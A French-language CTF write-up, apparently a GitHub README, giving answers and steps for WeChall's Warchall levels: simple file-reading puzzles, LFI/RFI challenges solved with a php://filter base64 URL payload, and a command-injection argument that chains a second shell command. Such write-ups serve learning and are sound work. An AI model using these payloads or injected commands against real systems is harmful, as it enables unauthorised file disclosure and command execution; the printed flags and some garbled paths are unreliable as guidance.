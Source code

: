# Wechall_SYS1
## Training: Warchall - The Beginning
##### Ce repository contient les solutions aux différents niveaux du challenge Wechall_SYS1. 

La commande `ls -R` permet de lister de manière récursive les fichiers et les répertoires dans un répertoire. Cette commande permet d'avoir une emsemble de path pour les soltions avec les bonnes permissions.
    
1. **Level 0:**
   
   + La solution pour le Level 0 est : bitwarrior

   `cd /home/level/00_welcome` et commande `cat`

2. **Level 1:**
   
   + La solution pour le Level 1 est : patience
     
   ` cd /home /level/01_choice_tree` .La soution est dans `cd. /blue/hats/grey/soltion/patience`

   `cat SOLUTION.txt`
   
3. **Level 2:**
   
   + La solution pour le Level 2 est : HiddenIsConfig

  `cd / home/level/02/.porb$`
  `cat .solution`

4. **Level 3:**
   
   + La solution pour le Level 3 est : RepeatingHistory

   `cd /home/level/03$` puis avec la commande `ls -la`
   `cat .bash_history`

5. **Level 4:**
   
   + La solution pour le Level 4 est AndOfCourseIDoKnowChown.

   `~/level/04_kwisatz$`
   `cat README2.md`

6. **Level 5:**
   
   + La solution pour le Level 3 est : OKPRIVATE

   `cd /home/level/05_privacy$` et avec la commande `ls -la`
   `cat README.md`

## 	Warchall: Live LFI && Warchall: Live RFI : Level 14&15

  ##### RFI (Remote File Inclusion) et LFI (Local File Inclusion) sont des vulnérabilités de sécurité liées à la gestion des fichiers dans les applications web.
  
### 1.LFI (Local File Inclusion) Challenge

+ Acceder au lien du challenge `Live LFI`
  
+ Acceder à la page `https://lfi.warchall.net/` et de choisir une langue UK ou DE
  
+ Une fois avoir fait cet etape, URL est ainsi `https://lfi.warchall.net/index.php?lang=de `
  
  - Avec le LFI qui permet l'inclusiion de fichiers locaux et pour extraire cette vulnerabilté, il faut utliser `php://filter` mais dans notre cas, nous voulons avoir la `solution.php`. Ainsi voici les demarches :
    
    - `https://lfi.warchall.net/index.php?lang=` en supprimant `de`
    - Le wrapper `php://filter/convert.base64-encode/resource=` avec `solution.php` comme cible
    - Nous allons ainsi executer `https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php`
    - En sortie, nous aurons un code en Base64 avec la methode `php://filter/convert.base64-encode/resource=`
      
+ Le code obtenu est  `PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K`

+ Decodage code base64
  - Le premier methode, c'est avec la commande
    ```bash
      echo 'PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcg...' | base64 -d
      ```
  - Le deuxieme methode c'est avec les online Decode and Encode Base64 comme sur (https://www.base64decode.org/) . Nous pouvons ainsi obtenier un code en HTML et Php comme solution :
 
```   
<html>
<body>
<pre style="color:#000;">teh falg si naer!</pre>
<pre style="color:#fff;">the flag is near!</pre>
</body>
</html>
<?php                  #   YOUR_TROPHY 
return 'SteppinStones42Pie'; # <-´ ?>
```

### 2.RFI (Remote File Inclusion) Challenge

+ Acceder au lien du challenge `Live RFI`
+ Acceder à la page `https://rfi.warchall.net/` et de choisir une langue EN ou DE
+ Une fois avoir fait cet etape, URL est ainsi `https://rfi.warchall.net/index.php?lang=en`
  
    - Avec le RFI qui permet d'exploiter une faille pour inclure à distance des fichiers sur le serveur, généralement des scripts, pour exécuter du code à distance sur le serveur Web. Il faut également utliser `php://filter` qui est une fonctionnalité de PHP qui permet de manipuler et de filtrer des flux de données
    - `https://rfi.warchall.net/index.php?lang=en` en supprimant `en`
    - Il faut inserer le filtre `https://rfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php`
    - Nous pouvons ainsi obtenir un code en base64

+ Le code obtenu est `PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5Pgo8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K `

+ Decodage code base64 avec la commande ou les online Decode and Encode Base64:
  
  ```bash
      echo 'PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5Pgo8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K ' | base64 -d
  ```
  
 ```  
<html>
<body>
<pre>NOTHING HERE????</pre>
</body>
</html>
<?php return 'Low_H4NGING_Fruit'; ?>
 ```

+ Nous pouvons ainsi obtenier un code en HTML et Php comme solution.


## Warchall: Choose your Path `/home/level/10/`

+ il faut acceder au level 10 par la commande `cd /home/level/10_choose_your_Path`
  
+ dans ~/home/level/10_choose_your_Path$ , if faut voir les contenu avec `ls -la`
+ Il faut acceder et executer fichier `./charp "solution.txt; cat solution.txt > ~/solutionPath1.txt" ` et `cd ~`
  
+ `cat solutionPath1.txt` pour voir le contenu du fichier solutionPath1.txt
  
+ L'execution du script `./charp`
  
+ `./charp "solution.txt; cat solution.txt > ~/solutionPath1.txt" ` est une injection des commandes après le point-virgule dans une commande shell.

+ `./charp "solution.txt; cat solution.txt > ~/solutionPath1.txt" `
  
   - `./charp ` : Cela exécute le fichier exécutable appelé "charp" dans le répertoire courant `./`
   - ` "solution.txt; cat solution.txt > ~/solutionPath1.txt" ` : C'est l'argument fourni à la commande "charp".
      - `solution.txt` : C'est une chaîne de caractères représentant un fichier appelé "solution.txt"
      - ` cat solution.txt > ~/solutionPath1.txt ` : C'est une deuxième commande qui sera exécutée après le point-virgule. Elle utilise la commande cat pour afficher le contenu du fichier "solution.txt" et redirige la sortie (>) vers un nouveau fichier appelé "solutionPath1.txt" dans le répertoire personnel de l'utilisateur `~`

+ La solution est `EpidermalGlance`

        
